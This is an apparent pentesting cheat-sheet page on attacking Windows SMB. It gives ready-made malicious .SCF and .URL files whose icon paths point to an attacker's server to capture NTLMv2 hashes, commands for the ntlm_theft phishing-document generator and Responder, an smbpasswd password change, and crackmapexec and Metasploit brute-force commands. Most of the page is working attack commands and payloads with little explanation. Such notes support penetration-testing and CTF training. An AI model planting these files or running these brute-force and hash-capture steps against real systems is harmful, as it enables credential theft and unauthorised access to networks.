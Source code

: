 # Attacks

## NTLM Theft via .SCF/.URL

{% hint style="success" %}
If we have write permissions on a shared directory and we suspect that a user frequently accesses it, we can obtain hashes.
{% endhint %}

### Theory

Windows Explorer uses a Shell Command File (SCF) to move directories up and down, display the desktop, etc. An SCF file can be manipulated so that the location of the icon file points to a specific UNC path and Windows Explorer initiates an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as **Responder**, **Inveigh** or **InveighZero**, we can often capture the NTLMv2 password hashes of any user browsing the share. This can be particularly useful if we gain write access to a file share that appears to be heavily used or even a directory on a user's workstation. We may be able to capture the hash of a user's password and use the password in clear text to escalate privileges on the target host, within the domain, or expand our access/gain access to other resources.

### Practice

{% tabs %}
{% tab title="Manual" %}
We create a malicious SCF/URL file:

{% code title="@Inventory.scf" %}
```shell
[Shell]
Command=2
IconFile=\\<LHOST>\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

{% code title="@leak.url" %}
```shell
[InternetShortcut]
URL=asd
IconIndex=0
IconFile=\\<IP>\leak\leak.ico
```
{% endcode %}
{% endtab %}

{% tab title="Automatic" %}
### ntlm\_theft

ntlm\_theft is an open source Python3 tool that generates 21 different types of hash stealer documents. These can be used for phishing when the target allows smb traffic outside your network, or if it is already inside the internal network.

```bash
git clone https://github.com/Greenwolf/ntlm_theft
sudo pip3 install xlsxwriter # Dependence required.
python3 ntlm_theft.py -g all -s <TUN0/ETH0 IP> -f <FILENAME>
```
{% endtab %}
{% endtabs %}

We upload the malicious SCF/URL to a directory and start Responder.py with all the default settings (everything set to "On"):

```bash
responder -I tun0 -rdwv # The Responder.conf file must be all set to On.
```

We wait and if someone enters the directory or any interaction occurs within that directory, it will dump the NTLMv2 hash.

## Change password

In CTFs, we may have the occasion where when performing a Password Spraying, we see that a user has that password but tells us that his password has expired, with the following attribute: STATUS\_PASSWORD\_MUST\_CHANGE

![](../../.gitbook/assets/STATUS\_PASSWORD\_MUST\_CHANGE.png)

In this case, we can change the password with the command `smbpasswd`.

### smbpasswd

```bash
smbpasswd -r <IP> -U "<USERNAME>"
# We will be asked for the old password, enter it and then enter a
# new strong password (letters, numbers and a symbol at the end).
```

## Brute Force

{% tabs %}
{% tab title="crackmapexec" %}
```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt --continue-on-success
```
{% endtab %}

{% tab title="Metasploit" %}
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set USER_FILE <path/to/file>
set PASS_FILE <path/to/file>
set stop_on_success true # Optional
set THREADS 50
run
```
{% endtab %}
{% endtabs %}

